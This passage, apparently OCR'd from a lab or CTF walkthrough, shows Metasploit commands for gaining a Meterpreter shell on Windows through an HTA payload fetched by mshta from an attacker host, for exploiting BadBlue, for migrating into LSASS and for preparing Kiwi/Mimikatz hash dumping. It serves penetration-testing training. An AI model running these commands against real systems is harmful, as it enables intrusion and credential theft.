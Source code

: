 **Kali Machine**

```shell
# Running the hta_server module to gain the meterpreter shell
msfconsole -q
use exploit/windows/misc/hta_server
exploit
```

**Target Machine**

```shell
# Copy the generated payload i.e “http://10.10.31.2:8080/Bn75U0NL8ONS.hta” and run it on cmd.exe with mshta command to gain the meterpreter shell
mshta.exe http://10.10.31.2:8080/Bn75U0NL8ONS.hta
```

**Kali Machine**

```shell
# We can expect a meterpreter shell.

# ind the flag
sessions -i 1
cd /
cd C:\\Users\\Administrator\\Desktop
dir
cat flag.txt
```

### 4.3. Dumping Hashes With Mimikatz - Kiwi

The **Meterpreter Kiwi plugin** is an advanced Post-Exploitation tool within the Metasploit Framework, specifically designed for interacting with and extracting sensitive data from compromised Windows systems. Kiwi is an extension of the Meterpreter payload and incorporates features from Mimikatz, a well-known post-exploitation tool used for extracting passwords, hashes, and other credentials from Windows systems. In this lab, we will explore the meterpreter Kiwi plugin to extract sensitive data from the target machine.

**Objective**: Use the meterpreter Kiwi plugin to extract sensitive data from the target's machine. Exploit the application and find all the flags:
- **Find Administrator and Student users NTLM hash**
- **Dump LSA secrets to find Syskey**

```shell
# Initial Scanning with Nmap and exploiting BadBlue Vulnerability Using Metasploit.
ping -c 1 <target_IP>
nmap -sV -O <target_IP> # 80/tcp | open  http | BadBlue httpd 2.7

service postgresql start && msfconsole
search badblue
use exploit/windows/http/badblue_passthru
set RHOSTS <target_IP>
exploit

# Post-Exploitation Enumeration
sysinfo  # Displays information about the target system (OS, architecture, etc.)
getuid   # Displays the current user context for the Meterpreter session.

# Privilege Escalation - Migrating to LSASS Process
pgrep lsass # migrate -N lsass.exe
migrate <process_number>
getuid # Should return NT AUTHORITY\SYSTEM, indicating SYSTEM-level access.
```
